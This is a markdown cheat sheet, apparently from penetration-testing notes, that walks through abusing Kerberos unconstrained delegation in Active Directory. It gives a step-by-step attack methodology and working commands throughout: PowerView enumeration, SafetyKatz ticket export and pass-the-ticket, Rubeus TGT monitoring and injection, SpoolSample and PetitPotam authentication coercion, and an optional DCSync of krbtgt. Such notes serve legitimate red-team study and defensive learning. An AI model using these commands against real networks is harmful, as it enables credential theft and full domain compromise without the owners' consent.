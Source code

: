 # Methodology
>1. Enumerate computers which have unconstrained delegation enabled (Ignore domain controllers).
>2. Compromise the computer(s) and escalate to admin privileges.
>3. Abuse printer bug or check for high value target tickets in memory.
>4. Capture the TGT of the high value target.
>5. Copy the ticket (remove extra spaces).
>6. Pass the ticket
>7. (OPTIONAL) Dcsync krbtgt.
---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView
**Find computers with unconstrained delegation:**
```powershell
Get-DomainComputer -UnConstrained
```

# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](../00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Export local TGTs:**
```cmd
SafetyKatz.exe '"sekurlsa::tickets /export"'
```

**Reuse TGTs:**
```cmd
SafetyKatz.exe '"kerberos::ptt ticket.kirbi"'
```
---
## Rubeus

**Monitor the target for the TGT:**
```cmd
Rubeus.exe monitor /targetuser:target$ /interval:5 /nowrap
```

**Abuse printer bug:**
https://github.com/leechristensen/SpoolSample
https://github.com/topotam/PetitPotam
```cmd
# With SpoolSample
MS-RPRN.exe \\target.contoso.local \\unconstrained.contoso.local

# With PetitPotam
PetitPotam.exe target unconstrained
```

**Pass the ticket:**
```cmd
Rubeus.exe ptt /ticket:doIFsjCCBa6gAwIBBaEDAgEWooI...
```